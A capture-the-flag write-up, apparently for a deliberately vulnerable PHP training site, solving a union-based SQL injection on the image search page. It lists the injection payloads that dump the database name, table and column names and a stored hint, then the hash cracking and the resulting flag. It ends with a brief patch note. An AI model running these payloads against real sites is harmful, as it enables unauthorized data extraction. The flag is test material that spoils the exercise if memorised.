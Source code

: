 # Exploit
1. Visit the URL: `/index.php?page=searchimg`.
2. This is similar to the SQL injection exploit in `search_member_sql_inj_error_based`, but without error-based SQL feedback.
3. Reuse similar queries to extract information about the database name, table name, and column names. Use the following queries:

1 union all select 1,database() --> Member_images 1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema=database() --> list_images 1 union all select 1,group_concat(column_name) from Information_schema.columns where table_name=0x6c6973745f696d61676573 --> id,url,title,comment 1 union all select 1,group_concat(comment,0x0a) from list_images --> If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

- 0x6c6973745f696d61676573 stand for list_images 
- 0x0a is a newline character "when it passed as second argument it add new line between each concatenated value"

4. Decrypt the MD5 hash, which gives: **albatroz**.
5. Compute the SHA-256 checksum for "albatroz":

```bash
echo -n albatroz | shasum -a 256
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
The resulting flag is: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188.
Patch
Prepare SQL statements using parameterized queries.
Sanitize user inputs by filtering special characters to prevent malicious inputs. """